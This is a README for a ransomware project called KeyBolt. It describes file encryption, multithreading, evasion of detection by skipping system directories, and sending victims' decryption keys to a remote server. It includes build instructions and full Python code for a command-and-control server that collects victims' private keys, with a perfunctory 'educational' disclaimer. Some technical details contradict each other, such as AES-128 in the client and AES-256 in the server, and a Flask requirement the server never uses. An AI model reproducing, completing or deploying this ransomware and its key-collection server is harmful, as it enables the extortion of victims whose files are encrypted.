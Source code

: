 # KeyBolt Ransomware

## Overview

**KeyBolt** is a sophisticated ransomware application designed to encrypt target files on the victim's system and securely transmit the decryption keys to a remote server. The application employs robust encryption algorithms and multithreading for efficient file processing.

KeyBolt primarily targets files with specific extensions while excluding system directories to minimize detection. It generates unique user identifiers and utilizes public key cryptography for secure key exchange.

## Important Fragments

### File Encryption

KeyBolt utilizes AES (Advanced Encryption Standard) for file encryption. Each file is encrypted with a randomly generated key, which is then encrypted with the victim's public RSA key. The encryption process ensures that only the authorized party can decrypt the files.

```c
void encrypt_file(const char *file_path, const char *public_key) {
    ...
    EVP_SealInit(ctx, EVP_aes_128_cbc(), &encrypted_key, &encrypted_key_len, iv, &pkey, 1);
    ...
}
```

### Multithreading

To improve performance, KeyBolt employs multithreading for file encryption. It divides the workload among several threads based on the number of available CPU cores.

```c
void encrypt_files(char **file_paths, int file_count, const char *public_key) {
    ...
    pthread_create(&threads[i], NULL, encrypt_files_thread, (void *)&thread_data[i]);
    ...
}
```

### Network Communication

KeyBolt securely sends the encrypted decryption keys to a designated server using SSL/TLS. This process ensures that sensitive data is transmitted securely over the network.

```c
SSL *ssl;
...
SSL_write(ssl, ciphertext, ciphertext_len);
```

### Compilation Instructions

KeyBolt is developed in C and requires a Linux environment for compilation. Ensure you have the necessary libraries installed, including OpenSSL and pthread.

#### Prerequisites

- GCC (GNU Compiler Collection)
- OpenSSL Development Libraries
- Pthread Library
- Winsock2 (for network communication on Windows)

#### Steps to Compile

1. Clone the repository:

    ```bash
    git clone https://github.com/s4crifice/keybolt-ransomware.git
    cd KeyBolt
    ```

2. Install required packages:

    On Debian-based systems, use:

    ```bash
    sudo apt-get install build-essential libssl-dev 
    ```

3. Go to scripts/:

    Run the following command in the terminal:

    ```bash
    cd scripts
    ```

4. Run the program:

    ```bash
    ./build_project.sh
    ```

### Example Server

Below is a simple Python server implementation that can be used to receive data from KeyBolt. Ensure you have Flask installed to run this server.

#### Python Server Example

```python
import socket
import ssl
import json
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# AES key and IV must match those used in client
AES_KEY = b'12345678901234567890123456789012'  # 32 bytes for AES-256
AES_IV = b'1234567890123456'                   # 16 bytes for AES block size

def decrypt_aes(ciphertext):
    cipher = AES.new(AES_KEY, AES.MODE_CBC, AES_IV)
    decrypted_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    return decrypted_data

def handle_client_connection(client_socket):
    try:
        encrypted_data = client_socket.recv(4096)
        if not encrypted_data:
            print("No data received")
            return

        print(f"Encrypted data: {encrypted_data}")

        # Decrypt the data
        decrypted_data = decrypt_aes(encrypted_data)
        print(f"Decrypted data: {decrypted_data}")

        json_data = json.loads(decrypted_data.decode('utf-8'))

        # Extract the privateKey and userId
        private_key = json_data.get('privateKey')
        user_id = json_data.get('userId')

        if private_key is None or user_id is None:
            print("Missing fields")
            return

        # Process the data as needed (for now, we just print it)
        print(f"Received privateKey: {private_key}")
        print(f"Received userId: {user_id}")

        # Save the privateKey to a file named after the userId
        with open(f"received_keys/{user_id}.txt", "w") as file:
            file.write(f"privateKey:\n{private_key}\n")
            file.write(f"userId: {user_id}\n")

    except Exception as e:
        print(f"Decryption failed: {e}")

def main():
    server_address = ('0.0.0.0', 443)

    # Create a socket
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind(server_address)
    server_socket.listen(5)
    print(f"Server listening on {server_address}")

    # Wrap the socket with SSL
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile='SSL/server.crt', keyfile='SSL/server.key')
    ssl_server_socket = context.wrap_socket(server_socket, server_side=True)

    while True:
        client_socket, client_address = ssl_server_socket.accept()
        print(f"Connection from {client_address}")
        handle_client_connection(client_socket)
        client_socket.close()

if __name__ == '__main__':
    main()
```

#### Generate SSL certificate

1. Using OpenSSL
    ```bash
    openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes
    ```

2. Move it to the SSL directory
    ```bash
    mv server.crt server.key SSL/
    ```

#### Run the Server

1. Install pycryptodome:

    ```bash
    pip install pycryptodome
    ```

2. Run the server:

    ```bash
    python server.py
    ```

### Disclaimer

KeyBolt is intended for educational purposes only. The authors do not condone the use of ransomware for malicious purposes. Misuse of this software is strictly prohibited and may result in legal consequences.

